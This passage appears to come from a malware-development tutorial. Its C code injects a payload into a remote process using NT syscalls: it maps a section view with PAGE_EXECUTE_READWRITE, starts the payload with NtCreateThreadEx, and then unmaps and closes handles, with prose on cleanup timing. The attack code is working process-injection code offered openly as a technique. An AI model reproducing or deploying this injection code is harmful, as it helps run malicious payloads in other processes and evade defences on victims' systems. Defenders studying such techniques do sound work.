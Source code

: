 ```
	memcpy(pLocalAddress, pPayload, sPayloadSize);
	printf("\t[+] Payload is Copied From 0x%p To 0x%p \n", pPayload, pLocalAddress);

//--------------------------------------------------------------------------

	// Allocating remote map view
	if ((STATUS = St.pNtMapViewOfSection(hSection, hProcess, &pRemoteAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE)) != 0) {
		printf("[!] NtMapViewOfSection [R] Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] Remote Memory Allocated At : 0x%p Of Size : %d \n", pRemoteAddress, sViewSize);

//--------------------------------------------------------------------------

	// Executing the payload via thread creation
	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();
	printf("\t[i] Running Thread Of Entry 0x%p ... ", pRemoteAddress);
	if ((STATUS = St.pNtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pRemoteAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
		printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] DONE \n");
	printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));

//--------------------------------------------------------------------------

	// Unmapping the local view - only when the payload is done executing
	if ((STATUS = St.pNtUnmapViewOfSection((HANDLE)-1, pLocalAddress)) != 0) {
		printf("[!] NtUnmapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}


	// Closing the section handle
	if ((STATUS = St.pNtClose(hSection)) != 0) {
		printf("[!] NtClose Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	return TRUE;
}


```
The `NtUnmapViewOfSection` function should only be executed after the payload has finished executing. Attempting to unmap the mapped local view while the payload is still running could break the payload execution or cause a process to crash. As an alternative, the [NtWaitForSingleObject](https://learn.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntwaitforsingleobject) syscall can be used to wait until the thread is finished, after which the `NtUnmapViewOfSection` syscall can be performed to clean up the mapped payload, though this is left as an exercise to the reader.
